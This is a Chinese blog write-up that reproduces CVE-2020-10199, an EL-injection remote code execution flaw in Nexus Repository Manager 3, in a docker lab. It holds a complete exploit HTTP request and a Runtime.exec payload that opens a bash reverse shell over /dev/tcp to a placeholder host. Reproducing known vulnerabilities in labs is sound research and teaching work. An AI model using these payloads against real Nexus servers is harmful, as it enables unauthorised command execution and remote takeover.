




# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10199） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16281828.html`](https://www.cnblogs.com/NoCirc1e/p/16281828.html)

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发 Maven、NuGET 等软件源仓库。其 3.21.1 及之前版本中，存在一处任意 EL 表达式注入漏洞。

参考链接：

*   [`support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31`](https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31)
*   [`github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md`](https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md)
*   [`github.com/jas502n/CVE-2020-10199`](https://github.com/jas502n/CVE-2020-10199)

## 漏洞环境

执行如下命令启动 Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```



等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到 Web 页面。


该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后使用 F12 找到 Cookie 复制当前的 CSRF-TOKEN



使用 Burp 进行抓包，替换以下数据包，然后把自己的 Cookie 和 CSRF-TOKEN 粘贴上去，然后发包即可看到执行了 9*9

<details><summary>点击查看代码</summary>

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 172.16.1.147:8081
Content-Length: 171
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
NX-ANTI-CSRF-TOKEN: 0.3009613092801201
Content-Type: application/json
Accept: */*
Origin: http://172.16.1.147:8081
Referer: http://172.16.1.147:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.3009613092801201; NXSESSIONID=076bf11d-d0c2-4b01-bed2-f9cb360dfa3b
Connection: close

{
"name": "internal",
"online": true,
"storage": {
"blobStoreName": "default",
"strictContentTypeValidation": true
},
"group": {
"memberNames": ["$\\A{9*9}"]
}
} 
```</details> 

执行反弹 Shell 把执行写入文件的 Payload 修改成反弹 shell 的命令，使用 nc 进行监听，点击发送查看 nc 的监听看到返回了 shell

```
"$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('/bin/bash -c bash$IFS$9-i>&/dev/tcp/ip/port<&1')}"
```

